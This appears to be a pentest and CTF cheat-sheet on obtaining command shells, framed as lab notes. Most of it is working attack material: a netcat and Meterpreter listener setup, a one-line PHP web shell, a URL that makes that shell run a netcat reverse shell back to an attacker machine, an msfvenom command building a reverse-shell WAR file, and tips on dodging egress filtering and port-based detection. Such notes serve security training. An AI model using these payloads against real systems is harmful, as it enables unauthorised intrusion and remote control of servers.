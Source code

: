 # Shells
For most lab or CTF environments, the goal is to get some kind of command shell on the machine for further exploitation. Sometimes this simply means discovering SSH or remote desktop credentials and logging in. Other times, it's exploiting a web application to generate a reverse shell that connects to your attack machine and waits for instructions.

In real life I'm not sure how often reverse shells really happen, but they're fun to pull off in the lab.

If shells are a new concept, [this is a good primer](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/).

## Listeners
Your attack machine needs to have a listener running to catch a reverse shell connection. Make sure you specify the IP address of your attack machine and use a port that doesn't already have a service listening. If you need to use `python SimpleHTTPServer` or similar to transfer exploits, make sure that isn't running on the same port. 

### Netcat listener
Using ports 80 or 443 will help you get around egress filtering:
```
nc -lvp 443
```
### Meterpreter listener
You may prefer a Meterpreter listener if you're connecting to a Windows machine and want to take advantage of commands like `getsystem`, or you want to use local Metasploit exploits once you've connected to the remote machine.

Avoid using port 4444 since that is widely recognized as a Metasploit port:
```
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp # or whatever
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost [attack machine] # your IP address
lhost => [attack machine]
msf exploit(handler) > set lport 443
lport => 443
msf exploit(handler) > run
```

## Simple PHP web shell
Assuming you are able to put a file on the web server or edit an existing one (e.g. CMS template) this is the simplest type of shell:

```
<?php echo shell_exec($_GET['cmd']); ?>
```
You can use it for system commands: 
```
http://[host]/wordpress/index.php?cmd=id
```
You can also use it to create a reverse shell:
```
http://[host]/wordpress/?cmd=nc [attack machine] [port] -e /bin/sh
```
## PHP shell
This [PHP web shell from pentestmonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) is nice. Make sure to change the following variables before uploading:
```
$ip = '127.0.0.1';  # change to attack machine IP
$port = 1234;       # change to attack machine port
```
## WAR shell
If you're able to access a Tomcat server's management interface, you can generate and upload a WAR file:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[attack machine] LPORT=443 -f war > shell.war
```

## Upgrading shell

```
python -c 'import pty; pty.spawn("/bin/bash");'
```
